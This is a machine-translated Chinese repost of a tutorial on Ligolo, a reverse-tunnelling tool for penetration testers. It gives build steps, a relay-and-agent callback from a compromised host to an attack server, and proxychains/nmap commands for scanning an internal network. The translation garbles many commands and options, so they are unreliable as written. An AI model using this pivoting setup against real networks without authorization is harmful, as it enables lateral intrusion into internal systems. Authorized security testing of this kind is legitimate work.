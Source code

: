 # Ligolo:反向隧道使 Pentesters 变得容易

> 原文：<https://kalilinuxtutorials.com/ligolo/>

[![Ligolo : Reverse Tunneling Made Easy For Pentesters](img/2bdcdc47059189ba25e85f46d24ef4d5.png "Ligolo : Reverse Tunneling Made Easy For Pentesters")](https://1.bp.blogspot.com/-V-H30KKV4JA/XuEoveF-1nI/AAAAAAAAGk8/FieL0aFsZnoPHa6WbxKAe3SclhAoDinhwCLcBGAsYHQ/s1600/Ligolo%25281%2529.png)

**Ligolo** 是一款*简易*和*轻型*工具，用于在完全安全的情况下从反向连接建立 *SOCKS5* 或 *TCP* 隧道(带椭圆曲线的 TLS 证书)。

和 Autoroute + Socks4a 的 Meterpreter 不相上下，但是更稳定更快。

**用例**

在外部审计期间，您的 Windows / Linux / Mac 服务器遭到破坏。该服务器位于局域网内，您想与该网络上的其他机器建立连接。

它可以建立一个隧道来访问内部服务器的资源。

**快速演示**

使用代理链(WAN)中继 RDP 连接。

![](img/ec5861f61d2f15be841dbe78cc76b554.png)

**性能**

下面是两台 100mb/s 主机之间的速度测试截图(ligolo / localrelay)。性能可能因系统和网络配置而异。

![](img/840d840a019593a5e6f31c7b3dadab57.png)

**用途**

**设置/编译**

确保 *Go* 已安装并正常工作。

*   获取 Ligolo 和依赖项

**CD ' go env gopath `/src
git 克隆 https://github . com/sys dream/ligolo
CD ligolo
make dep**

2.  生成自签名 TLS 证书(将放在 *certs* 文件夹中)

**制作证书 TLS_HOST=example.com**

注意:当调用*构建*时，您也可以通过使用`**TLS_CERT**` make 选项来使用您自己的证书。例如: **`make build-all TLS_CERT=certs/mycert.pem`。**

3.  建设

*   3.1.对于所有架构

**进行全部构建**

*   3.2.(或)对于当前架构

**进行构建**

**如何使用？**

Ligolo 由两个模块组成:

*   本地中继
*   利戈戈

Localrelay 旨在控制服务器(攻击者服务器)上启动。

它是在目标计算机上运行的程序。

对于 localrelay，您可以保留默认选项。它将监听端口 5555 上的每个接口，并等待来自 ligolo ( `-relayserver`参数)的连接。

对于 ligolo，您必须使用`-relayserver ip:port`参数指定中继服务器(或您的攻击服务器)的 IP 地址。

您可以使用`-h`选项寻求帮助。

一旦在 *Ligolo* 和 *LocalRelay* 之间建立了连接，一个 *SOCKS5* 代理将在中继服务器上的 TCP 端口`1080`上建立(您可以使用 *-localserver* 选项更改 TCP 地址/端口)。

之后，你所要做的就是使用你最喜欢的工具(比如 Proxychains)，探索客户的局域网。

**TL；博士**

在你的攻击服务器上。

。/bin/localrelay_linux_amd64

在受损主机上。

> ligolo _ windows _ amd64 . exe-relay server localrayserver:5555

建立连接后，在 ProxyChains 配置文件(在攻击服务器上)中设置以下参数:

[代理列表]
#在此添加代理……
# mean wile
#默认设置为“tor”
socks 5 127 . 0 . 0 . 1 1080

利润。

$ proxy chains nmap-sT 10 . 0 . 0 . 0/24-p 80-Pn-A

**选项**

本地中继选项:

**local relay 的用法:**
-certfile 字符串
**TLS 服务器证书(默认为“certs/server . CRT”)**
-keyfile 字符串
**TLS 服务器密钥(默认为“certs/server . key”)**
-local server 字符串
**本地服务器地址(您的 proxychains 参数)(默认为“127 . 0 . 0 . 1:1080”)**
-relay server

选项行:

**ligolo 用法:**
-自动重启
**出现异常时尝试重新连接**
-relayserver 字符串
**中继服务器(回连地址)(默认“127 . 0 . 0 . 1:5555”)**
-Skip verify
**跳过 TLS 证书锁定验证**
-targetserver 字符串
**目的服务器(RDP 客户端，SSH)–未指定时，Ligolo 启动 socks5 代理服务器**

**特性**

*   带 TLS 固定的 TLS 1.3 隧道
*   多平台(Windows / Linux / Mac / …)
*   多路复用(所有流都有一个 TCP 连接)
*   SOCKS5 代理或简单中继

**待办事项**

*   更好的超时处理
*   SOCKS5 UDP 支持
*   实施 MTL

[**Download**](https://github.com/sysdream/ligolo)